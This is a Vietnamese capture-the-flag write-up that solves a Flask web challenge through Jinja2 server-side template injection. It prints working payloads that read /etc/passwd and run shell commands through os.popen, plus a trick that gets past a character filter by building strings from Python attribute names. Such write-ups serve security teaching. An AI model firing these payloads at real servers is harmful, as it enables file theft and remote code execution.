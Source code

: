
# Write-up EHC Hair Salon

* [Source code](https://github.com/5c4ll10n/FPTU-Hacking-CTF-2022/blob/main/Data/app.py)

Challenge này cho ta một trang web với giao diện như hình, có 1 box input text và 1 nút submit

![image](https://user-images.githubusercontent.com/82231862/176257788-ee5d0482-a574-4cf0-9a51-598ba054eaa9.png)

Xem source code, ta thấy tác giả đã import module flask và sử dụng jinja2 để render ra page


![image](https://user-images.githubusercontent.com/82231862/176261133-3e96b201-903e-48e1-b799-4d563236713e.png)

![image](https://user-images.githubusercontent.com/82231862/176261062-61d6cf64-73d6-4908-a28a-f580cb08dc25.png)

Với web không filter user input, ta có thể dễ dàng inject code vào. Ví dụ:

* `{{2*3}}` sẽ được render ra là 6

Chúng ta còn có thể inject các đoạn code như [read file](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file) hoặc [remote code execution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---remote-code-execution). Ví dụ:

* `{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}` trả về nội dung file password
* `{{ cycler.__init__.__globals__.os.popen('id').read() }}` chạy lệnh `id` trong shell

Nhưng trong challenge này, input đã tác giả đã filter đi khá nhiều

```python
regex = "request|config|self|class|flag|0|1|2|3|4|5|6|7|8|9|\"|\'|\\|\~|\%|\#" 
# filter đi string, số, flag, các char và 1 số lệnh cơ bản. Quan trong nhất là string và số để ta có thể tạo payload
...
       hair_type = request.form['hair'].lower()
       if '{' in hair_type and re.search(regex,hair_type):
            return render_template_string(error_page)
            
       if len(hair_type) > 256:
            return render_template_string(error_page)      
# giới hạn số kí tự tối đa có thể nhập vào
...
```
;
Không thể tạo payload trực tiếp, ta sẽ đi đường vòng bằng cách sử dụng các attribute và method có sẵn của python. Ví dụ:

* `().__doc__` sẽ trả về doc của tuple: `Built-in immutable sequence.\n\nIf no argument is given, the constructor returns an empty tuple.\nIf iterable is specified the tuple is initialized from iterable's items.\n\nIf the argument is a tuple, the return value is the same object.`
* `().__doc__[7]` sẽ trả về kí tự thứ 5 của string trên: `n`
* `().__str__.__name__` sẽ trả về `__str__`

Vì tác giả đã filter số nên ta có thể sử dụng hàm `[..].__len__()` để trả về số phần tử của 1 mảng. Ví dụ:

* `[].__len__()` sẽ trả về số phần tử của mảng rỗng là: `0`
* `[[],[],[],[]].__len__()` sẽ trả về: `4`

Kết hợp 2 cái ta sẽ có được:

* `().__doc__[[[],[],[]].__len__()]` để trả về kí tự `l`
* `().__str__.__name__[[[],[]].__len__()] để trả về kí tự `s`

Chúng ta thử inject payload bằng cách gọi [os.popen().read()](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-ospopenread) để chạy lệnh `ls` trong shell

* `{{cycler.__init__.__globals__.os.popen(().__doc__[[[],[],[]].__len__()]+().__str__.__name__[[[],[]].__len__()]).read()}}`  dùng dấu `+` để ghép chuỗi

Ta tìm được file tên là **flag** trong thư mục

![image](https://user-images.githubusercontent.com/82231862/176274512-1734c739-247a-47f2-bb79-28e18e829180.png)

Tiếp theo để mở file đó, ta sẽ dùng [read file](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file) để đọc file **flag**. Ta được payload như sau:

`{{get_flashed_messages.__globals__.__builtins__.open(().__format__.__name__[[[],[]].__len__()]+().__le__.__name__[[[],[]].__len__()]+().__add__.__name__[[[],[]].__len__()]+().__ge__.__name__[[[],[]].__len__()]).read()}}`

Kết quả: 

![image](https://user-images.githubusercontent.com/82231862/176280207-17d6dfb8-d240-4d4f-9b21-48899a300f4b.png)

### FLAG: FPTUHacking{d4y_d1_0ng_ch4u_0i,ban_da_thoat_khoi_EHC_hair_salon_roi}
